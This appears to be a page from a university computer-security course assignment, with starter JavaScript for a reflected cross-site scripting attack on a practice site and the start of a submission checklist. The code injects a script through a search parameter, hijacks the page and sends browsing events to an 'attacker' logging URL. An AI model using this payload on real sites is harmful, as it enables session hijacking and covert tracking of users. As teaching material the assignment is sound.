 \documentclass[letterpaper,12pt]{article}
\begin{document}
{{\small\begin{verbatim}
<!-- Derived from jhalderm's solution to Part 3. -->
<meta charset="utf-8">
<script src="http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>
<script>

// Extend this function:
function payload(attacker) {
    function log(data) { 
        console.log($.param(data))
        $.get(attacker, data);
    }
    function proxy(href) {
        $("html").load(href, function(){
            $("html").show();
            log({event: "nav", uri: href});
            $("#query").val("pwned!");
        }); 
    }
    $("html").hide();
    proxy("./");
}

function makeLink(xssdefense, target, attacker) {
    if (xssdefense == 0) {
        return target + "./search?xssdefense=" + xssdefense.toString() + "&q=" + 
            encodeURIComponent("<script" + ">" + payload.toString() +
                               ";payload(\"" + attacker + "\");</script" + ">");
    } else {
        // Implement code to defeat XSS defenses here.
    }
}

var xssdefense = 0;
var target = "http://eecs388.org/project2/";
var attacker = "http://127.0.0.1:31337/";

$(function() {
    var url = makeLink(xssdefense, target, attacker);
    $("h3").html("<a target=\"run\" href=\"" + url + "\">Try Bungle!</a>");
});

</script>
<h3></h3>
\end{verbatim}}

\newpage
\section*{Submission Checklist}

Upload to CTools a gzipped tarball (\texttt{.tar.gz}) named
\texttt{project2.\emph{uniqname1}.\emph{uniqname2}.tar.gz}. The tarball should contain only the files below.  When applicable, your solutions may contain embedded JavaScript or CSS, and they may load jQuery from the URL \url{http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js}, but they must be otherwise self-contained.  Please make sure you test your solutions in Firefox 24, the browser we will use for grading.

\subsection*{Part 1: SQL Injection}

}
\end{document}
